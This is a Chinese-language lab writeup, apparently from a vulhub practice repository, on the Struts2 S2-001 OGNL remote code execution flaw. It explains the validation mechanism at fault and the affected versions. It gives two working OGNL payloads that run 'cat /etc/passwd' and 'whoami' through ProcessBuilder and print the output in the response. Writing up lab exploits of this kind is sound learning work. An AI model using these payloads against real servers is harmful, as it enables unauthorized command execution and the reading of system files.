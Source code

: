 # Struts2_001_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		我们来了解一下Struts2 中的validation机制。validation依靠validation和workflow两个拦截器。validation会根据配置的xml文件创建一个特殊字段错误列表。而workflow则会根据validation的错误对其进行检测，如果输入有值，将会把用户带回到原先提交表单的页面，并且将值返回。反之，在默认情况下，如果控制器没有得到任何的输入结果但是有validation验证错误。那么用户将会得到一个错误的信息提示。

那么这个机制到底和我们的漏洞有什么关系呢？在WebWork 2.1+ 和 Struts 2中存在一个altSyntax的特性，该特性允许用户提交OGNL请求，当用户提交恶意请求表单，故意触发一个validation错误，页面被workflow再次返回给用户的时候，默认情况下相当于返回%{return_value}。

###### 		该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL 表达式解析，所以可以直接构造 Payload进行命令执行。

##### 			影响版本

  		2.0.0 - 2.0.8

### 0x02漏洞复现

#### payload：

%{
\#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"**cat**","**/etc/passwd**"})).redirectErrorStream(true).start(),
\#b=#a.getInputStream(),
\#c=new java.io.InputStreamReader(#b),
\#d=new java.io.BufferedReader(#c),
\#e=new char[50000],
\#d.read(#e),
\#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
\#f.getWriter().println(new java.lang.String(#e)),
\#f.getWriter().flush(),#f.getWriter().close()
}

##### whoami:

%{+#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"**whoami**"})).redirectErrorStream(true).start(),+#b=#a.getInputStream(),+#c=new+java.io.InputStreamReader(#b),+#d=new+java.io.BufferedReader(#c),+#e=new+char[50000],+#d.read(#e),+#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),+#f.getWriter().println(new+java.lang.String(#e)),+#f.getWriter().flush(),#f.getWriter().close()+}

(PS:实际抓包过程中也有这样或那样的坑，进行url编码，建议同学自己手工复现的时候多试几次)

​			登录界面

![S2_001_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_001_rce_1.jpg)



​			Burpsuite抓包，发送第一个payload

!![S2_001_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_001_rce_2.jpg)

​				

### 0x03总结

​				这是笔者的第四篇文章，感觉写writeup的时候比正常打漏洞学到东西更充实。因为我写的每一个字都要思考别人能不能懂，思考的前提就在于，首先我要懂了。由于笔者是初学者，暂时没有做代码审计的能力。这也是我认真学习的第四个洞，估计以后代码审计还会过来补充。如有错误，还望各位师傅指正！

### 0x04参考资料

https://www.cnblogs.com/magic-zero/p/8214034.html

https://blog.csdn.net/SouthWind0/article/details/98971461